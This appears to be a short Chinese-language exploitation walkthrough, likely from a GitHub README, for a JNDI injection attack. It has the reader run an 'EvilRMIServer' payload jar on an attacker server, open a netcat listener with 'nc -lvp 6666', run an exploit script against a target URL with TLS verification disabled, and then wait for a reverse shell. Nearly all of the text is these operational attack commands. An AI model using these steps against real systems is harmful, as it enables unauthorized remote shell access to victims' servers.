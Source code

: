 


### 2. jar运行

上传完成后运行

```bash
# java -cp JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer 服务器IP
```

* -cp 指定运行的目标 然后需要输入服务器的IP
* `payloads.EvilRMIServer`：指定执行的类
* 服务器IP：设置的rmi服务器的IP



那么此时：

* rmi服务器端的地址为：`服务器IP:2020`
* 然后tcp连接的地址为：`服务器I:6666`





### 3. 端口监听

服务器监听端口：6666

```bash
# nc -lvp 6666
```





### 4. exp运行

然后运行exp

```cmd
# python3 exp2.py http://xxxxx:xxxx
```



当提示目标证书错误时，解决办法：

修改exp代码

```python
rep = req.post(url, json=i,verify=False) // 使用post 发送数据
```

`verify=False`，就是用来关闭验证的！！

之后可以正常运行



### 5. 接收反弹shell



等待反弹shell即可

